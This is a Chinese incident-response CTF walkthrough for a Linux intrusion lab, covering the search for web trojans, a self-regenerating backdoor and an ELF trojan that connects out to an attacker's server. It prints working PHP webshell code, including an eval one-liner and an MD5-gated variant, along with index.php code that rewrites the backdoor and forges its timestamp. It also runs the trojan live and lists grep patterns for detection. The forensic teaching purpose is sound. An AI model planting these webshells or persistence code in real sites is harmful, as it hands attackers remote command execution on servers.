# Linux入侵排查

## 一、简介

靶机名：Linux入侵排查

靶机账号/密码：root linuxruqin

难度-初级偏上

# 二、题目

1.web目录存在木马，请找到木马的密码提交  
2.服务器疑似存在不死马，请找到不死马的密码提交  
3.不死马是通过哪个文件生成的，请提交文件名  
4.黑客留下了木马文件，请找出黑客的服务器ip提交  
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交

# 三、WriteUp

‍

### 一、前言

题目链接：[第一章 应急响应- Linux入侵排查](https://xj.edisec.net/challenges/26)

‍

**简单说一下什么是《应急响应- Linux入侵排查》**

应急响应是指在发生安全事件（如网络入侵、恶意软件感染、数据泄露等）时，组织采取的一系列行动，以识别、遏制、消除威胁，并恢复系统的正常运行。应急响应的目标是最小化事件的影响，保护组织的资产和数据。

**Linux入侵排查**是应急响应的一部分，专门针对Linux系统进行安全事件的调查和分析。

针对这题其实也是有两种方法来排查、手工排查及工具排查；

至于要说哪一种好嘛，这个各有各的说法，主要就是看自己熟练什么，这篇文章，两种方法我都会尝试去解答，如有不妥地方请及时私信我（感谢感谢！），最后欢迎师傅们一起交流；

简单说一下工具与手工好处；（更多详细可以参考[第一章 应急响应-webshell查杀 wp（手把手保姆级教学）](https://blog.csdn.net/administratorlws/article/details/139521078?spm=1001.2014.3001.5502)）

**手工排查的好处**

1. **灵活性高**：

    * 手工排查能够根据具体情况和需求进行灵活调整，针对特定的可疑活动进行详细分析。
2. **深度理解**：

    * 手工排查需要深入理解系统和日志，这有助于安全人员提高对系统和安全事件的理解和认识。
3. **精确性强**：

    * 手工排查可以通过逐行分析日志和系统信息，发现工具可能遗漏的细微线索和异常行为。
4. **适应性强**：

    * 对于新型威胁和未知攻击，手工排查可以快速调整策略进行应对，而不需要依赖工具的更新和支持。

**工具排查的好处**

1. **效率高**：

    * 工具可以快速处理大量数据和日志，节省时间，提高分析效率。
2. **全面性**：

    * 工具能够自动化地扫描和分析系统的各个方面，提供全面的检测和报告。
3. **重复性强**：

    * 工具可以进行重复性工作，减少人为错误和疏漏，提高一致性和准确性。
4. **集成性好**：

    * 现代安全工具通常集成了多种功能，如日志分析、恶意软件检测、漏洞扫描等，提供一站式解决方案。

‍

### 二、参考文章

[【玄机靶场】Linux入侵排查](https://blog.csdn.net/yujiahui0203/article/details/139013656?spm=1001.2014.3001.5502)

[玄机平台应急响应—Linux入侵排查](https://blog.csdn.net/2301_76227305/article/details/139303054)

‍

### 三、步骤（解析）

老规矩，这里还是使用Xshell链接我就不再多解释了《参考文章[第一章 应急响应-webshell查杀](https://blog.csdn.net/administratorlws/article/details/139521078?spm=1001.2014.3001.5502)》，但是注意这里我还需要工具进行排查，所以先把源码（var/www/html）,简单来说就是这个目录全部导出并压缩，最后丢进查杀工具进行分析；（导出源码这里我使用的是XFTP）

XFTP、Xshell官方免费下载链接：[官方免费版](https://www.xshell.com/zh/free-for-home-school/)

#### 步骤#1.1

##### web目录存在木马，请找到木马的密码提交

既然说web目录里面存在木马，很好我觉得说了等于没说，目录这么多我们怎么确认木马具体在那个目录？但是不要慌哈，我们可以使用find来进行定位木马的特征；

这个之前就已经做过总结，这里偷个懒我就不再多强调；

> //搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征  
> find ./ type f -name " *.jsp&quot; | xargs grep &quot;exec(&quot;find ./ type f -name &quot;* .php" | xargs grep "eval("  
> find ./ type f -name " *.asp&quot; | xargs grep &quot;execute(&quot;find ./ type f -name &quot;* .aspx" | xargs grep "eval("
>
> //对于免杀Webshell，可以查看是否使用编码  
> find ./ type f -name "*.php" | xargs grep "base64_decode"

这里我直接一个一个尝试过来，反正来来去去考我们就是那么多；

	find ./ -type f -name "*.php" | xargs grep "eval("

命令简单分析：

* ​**​`find ./ -type f -name "*.php"`​** ​

  * ​`find`​：这是一个用于搜索文件和目录的命令。
  * ​`./`​：表示当前目录及其子目录。
  * ​`-type f`​：表示只搜索文件（不包括目录）。
  * ​`-name "*.php"`​：表示只搜索扩展名为 `.php`​ 的文件。
* ​ **​`|`​** ​

  * 管道符，将前一个命令的输出作为下一个命令的输入。
* ​**​`xargs grep "eval("`​** ​

  * ​`xargs`​：将标准输入的数据转换为命令行参数。它会将 `find`​ 命令的输出传递给 `grep`​。
  * ​`grep "eval("`​：搜索包含字符串 `eval(`​ 的行。

​​

	./var/www/html/.shell.php:<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>  
	./var/www/html/index.php:$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
	./var/www/html/1.php:<?php eval($_POST[1]);?>

跟着查出的目录过去一个一个进行查看；

	cat 1.php

​​

	<?php eval($_POST[1]);?>root@ip-10-0-10-3:/var/www/html#

可以看出查出三个后缀为.php的文件，题目要求我们把木马的密码提交，就这三个文件很明显嘛，不是pass就是1咯，因为这是《一句话木马》的特征；

**什么是《一句话木马》？**

一句话木马是一种极为简短且隐蔽的恶意代码，通常嵌入到网站的 PHP 文件中，用于远程执行任意代码或命令。这种木马之所以被称为“一句话木马”，是因为它们通常只包含一行代码，但功能强大且危险。

 **《一句话木马》特征**

1. **简短**：通常只有一行代码，易于隐藏和注入。
2. **使用** **​`eval`​**​ **函数**：利用 `eval`​ 函数执行传入的 PHP 代码。
3. **通过 HTTP 参数传递代码**：常见的方式是通过 GET 或 POST 请求参数传递要执行的代码。
4. **基础验证**：一些一句话木马会有简单的验证机制，比如检查一个参数的值是否符合某个条件。

**那为什么可以确认POST[xxx]括号里面的就是密码呢？**

很简单，这是固定的，[]里面的内容自古以来就是密码！

	flag{1}

#### 步骤#1.2

##### 服务器疑似存在不死马，请找到不死马的密码提交

**什么是《不死马》？**

不死马（Persistence Backdoor）是一种能够在系统中保持长期存在并持续运行的恶意软件，即使系统重启或某些安全措施生效后，它依然能够恢复运行。不死马通常会通过修改系统关键配置、添加定时任务、劫持系统进程等手段来实现持久化。

简单来说；

不死马是一种具有持久性的后门程序，它被设计用来在受感染的系统上长期驻留并保持活跃。其目的是确保攻击者对系统的访问不会因为系统重启或其他干预措施而中断。

 **《不死马》特征**

* **持久性**：

  * **自启动**：通过修改系统启动项、服务、计划任务等方式实现自启动。
  * **文件隐藏**：使用技术手段隐藏自身文件，避免被发现和删除。
  * **多重存在**：可能在多个位置部署副本，增强存活能力。
* **隐蔽性**：

  * **低调运行**：以低优先级运行，不占用过多系统资源，减少被注意的可能。
  * **多态性**：定期更改自身代码或行为模式，规避签名检测。
  * **日志清除**：清除自身操作痕迹，减少被追踪的可能。
* **多样化的保持机制**：

  * **启动项**：在 Windows 中，可以修改注册表中的启动项，在 Linux 中，可以修改 `rc.local`​ 或 `crontab`​。
  * **服务劫持**：创建或劫持合法的系统服务。
  * **计划任务**：在系统计划任务中添加恶意任务。

这里因为一些特殊的原因我们是不能直接检查计划任务：crontab -l  
启动也没有看出什么来；

> cat /etc/rc.local  
> ls /etc/init.d/  
> systemctl list-unit-files --type=service

那没办法了，我们只能从题一找出的三个文件继续分析；

先查看一下.shell.php；

	cat .shell.php

​​

	<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>root@ip-10-0-10-3:/var/www/html#

感觉就是这个不死马，但是还不是很能确认，我们继续查一下index.php；

​​

	<?php  
	include('config.php');  
	include(SYS_ROOT.INC.'common.php');  
	$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');  
	if(substr($path, 0,1)=='/'){  
		$path=substr($path,1);  
	}  
	$path = Base::safeword($path);  
	$ctrl=isset($_GET['action'])?$_GET['action']:'run';  
	if(isset($_GET['createprocess']))  
	{  
		Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);  
	}else{  
		Index::run($path);  
	}  
	$file = '/var/www/html/.shell.php';  
	$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
	file_put_contents($file,$code);  
	system('touch -m -d "2021-01-01 00:00:01" .shell.php');  
	usleep(3000);  
	?>

总来说就是核心目的是在 `/var/www/html/`​ 目录下创建一个名为 `.shell.php`​ 的后门文件，并伪造其时间戳以试图隐藏其存在。该后门文件包含恶意代码，通过 `md5`​ 哈希验证密码后，执行传入的命令。这种后门文件可以被攻击者用来远程执行任意命令，从而完全控制服务器。

主要的就是；（圈起来的）

* **定义后门文件路径**：

  ​`$file = '/var/www/html/.shell.php';`​

  * ​`$file`​ 变量定义了后门文件的存放路径 `/var/www/html/.shell.php`​。
* **定义后门代码**：

  ​`_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';`​

  * ​`$code`​ 变量定义了后门代码。
  * 该代码通过 `md5`​ 哈希验证 `POST`​ 请求中的密码（`pass`​ 参数），如果匹配，则执行 `POST`​ 请求中的命令（`cmd`​ 参数）。
* **写入后门文件**：

  ​`file_put_contents(code);`​

  * 使用 `file_put_contents`​ 函数将后门代码写入到 `$file`​ 指定的文件路径中，即创建或覆盖 `.shell.php`​ 文件。
* **伪造文件时间戳**：

  ​`system('touch -m -d "2021-01-01 00:00:01" .shell.php');`​

  * 使用 `system`​ 函数执行 `touch`​ 命令，修改 `.shell.php`​ 文件的修改时间为 `2021-01-01 00:00:01`​，以伪造文件的修改时间，试图隐藏其创建和修改痕迹。
* **微小延时**：

  ​`usleep(3000);`​

  * 使用 `usleep`​ 函数增加 3000 微秒（3 毫秒）的延时，虽然这个延时很短，但可能用于调节执行的节奏，以掩盖其操作痕迹。

所以这一套下来基本就是可以确认.shell.php文件就是由这个文件生成的，并且每隔usleep(3000)就生成一个新文件，所以达到了不死马的条件；

那既然我们不死马知道是谁了，并且也知道了是由谁生成不死马，那密码肯定就是那串MD5；

[在线MD5解密](https://www.cmd5.com/default.aspx)

​​

	flag{hello}

#### 步骤#1.3

##### 不死马是通过哪个文件生成的，请提交文件名

根据题二，我们已经完全将不死马分析完毕，已知就是由inde.php生成；

	cat index.php

​​

	flag{index.php}

#### 步骤#1.4

##### 黑客留下了木马文件，请找出黑客的服务器ip提交

让我们找出黑客的服务器ip，那我们先查看一下日志，看看有没有进行暴力破解的痕迹；

日志位置：/var/log/auth.log.1

	grep "shell.php" /var/log/auth.log.1

​​

	cat auth.log.1 |grep "Accepted password"

​​

都没有，那就可能是通过其他方式写入的webshell。

返回刚刚web服务器下，检查一下（ls查看目录）；

​​

除去我们刚刚查出来的另外两个马，这边还有一个可疑的文件：'shell(1).elf'

这里学到一个简单的方法先提个权限，接着再运行可疑文件'shell(1).elf'

最后我们再查看这个可疑文件连接情况；

尝试一下

	chmod 777 "shell(1).elf"

​​

运行；（注意这个时候是没有任何回显的！！！！！）

	./'shell(1).elf'

​​

也不要慌，我再使用Xshell新建一个！（两个一起链接是不会相互冲突的！！！！！）

（名字记得改一下）

​​

现在我们已经将文件'shell(1).elf'提好权了，并且也成功运行，现在我们就可以在新建的上面查看它的连接情况啦~

命令；

	netstat -antlp | more

简单分析作用；

​`netstat -antlp | more`​ 这个命令组合了 `netstat`​ 和 `more`​ 两个命令，用于显示网络连接和监听端口的详细信息，并通过分页方式呈现输出内容。下面是对每个部分的详细分析：

​**​`netstat`​**​ **命令**

​`netstat`​ 是一个网络工具，用于显示网络连接、路由表、接口统计信息、伪装连接和多播成员信息。

**选项和参数**

* ​`-a`​：显示所有连接中的端口，包括监听和非监听。
* ​`-n`​：以数字形式显示地址和端口号，而不是将其解析为主机名或服务名。
* ​`-t`​：显示 TCP 连接。
* ​`-l`​：显示监听状态的套接字。
* ​`-p`​：显示使用每个套接字的程序。

​​

**字段解释**

1. **Proto**：协议（Protocol）

    * 显示协议类型，常见的有 `tcp`​ 和 `udp`​。
2. **Recv-Q**：接收队列（Receive Queue）

    * 显示接收队列的字节数。接收队列中的字节数是应用程序还未处理的接收数据。
3. **Send-Q**：发送队列（Send Queue）

    * 显示发送队列的字节数。发送队列中的字节数是已经被应用程序发送，但还未被远程主机接收的字节数。
4. **Local Address**：本地地址

    * 显示本地端的 IP 地址和端口号。例如：`0.0.0.0:80`​ 表示本地所有 IP 地址上的 80 端口。
5. **Foreign Address**：远程地址

    * 显示远程端的 IP 地址和端口号。例如：`192.168.1.1:12345`​ 表示远程 IP 为 `192.168.1.1`​ 的 12345 端口。
6. **State**：状态

    * 显示连接的状态。常见状态有：

      * ​`LISTEN`​：正在监听连接。
      * ​`ESTABLISHED`​：已建立连接。
      * ​`CLOSE_WAIT`​：等待关闭连接。
      * ​`TIME_WAIT`​：等待足够的时间以确保远程主机收到关闭请求。
7. **PID/Program name**：进程 ID 和程序名

    * 显示使用该连接的进程的进程 ID 和程序名。例如：`1234/nginx`​ 表示进程 ID 为 1234 的 `nginx`​ 程序。

所以很明显，该出的都出来了，就连不该出来的，我们也一起出来了；

	flag{10.11.55.21}

#### 步骤#1.5

##### 黑客留下了木马文件，请找出黑客服务器开启的监端口提交

根据题四，我们就已经分析出木马文件——shell(1).elf

所以答案也很明显，让我将开启的监听端口号进行提交；

**什么是监听端口号？**

监听端口号（Listening Port）是网络通信中用于等待和接收传入连接请求的端口号。服务器或服务在特定端口上监听，以便与客户端建立连接。这种机制确保了网络应用程序能够接收和处理来自其他网络设备的请求。

**基本概念**

* **端口号**：计算机网络中的端口号是用于标识特定应用程序或进程的逻辑端点。端口号的范围是0到65535，其中0到1023为系统保留端口，一般用于知名服务。
* **监听（Listening）** ：当一个应用程序或服务在某个端口上“监听”时，它在等待并准备接受来自该端口的连接请求。

**例子**

以 `netstat -antlp`​ 命令为例，该命令可以显示当前系统上所有正在监听的端口及其相关信息：

​​

在上述示例中：

* ​`0.0.0.0:80`​ 表示Web服务器在监听端口80上等待来自任何IP地址的连接。
* ​`0.0.0.0:22`​ 表示SSH服务器在监听端口22上等待来自任何IP地址的连接。

  netstat -antlp | more

​​

	flag{3333}

‍

### 四、拓展

#### 工具排查

注意！！！提前使用Xftp，导出源码（var/www/html）;

这里我使用在线河马端查了一下发现查是查出来了，但是不完整，这里不推荐大家使用；（需要压缩一下在丢进去查杀）

[在线河马端](https://n.shellpub.com/detail/2d856e13-bcad-4c8c-a29c-b6fbf23bf5a5)

​​

只查出两个，跟进目录进行查看；（右键记事本打开进行查看）

​​

《一句话木马》，密码是1，手动查杀已经说了一句话木马的特征，这里不再多强调；

flag{1}

继续查看下一个文件——.shell.php

老规矩右键记事本打开，这里因为比较可疑，所以完全可以有理由怀疑是《不死马》；

要不然好端端的，你说河马查出干嘛是吧？

​​

看见MD5知道是MD5加密过的，所以随便找个在线网站进行解密即可，手动查杀演示过了，这里便不再多演示；

flag{hello}

那有的人就要说了，哎这不是才查出两个嘛？

对啊，确实才两个，所以这次就不推荐大家使用和河马来查；

这里我们下载D盾来查；

[D盾下载链接](https://www.d99net.net/)

跟刚刚一样，直接整个目录文件打包全部丢进去；

​​

哎，这不是就发现了可疑文件index.php了嘛，直接跟进右键记事本打开查看；

​​

手动查杀这里已分析过一遍，就不在多分析了，反正就是分析这里就可以确认不死马.shell.php是通过inde.php生成的；

flag{index.php}

那有的人就要问了，工具查杀是不是查不出黑客服务器的ip啊？

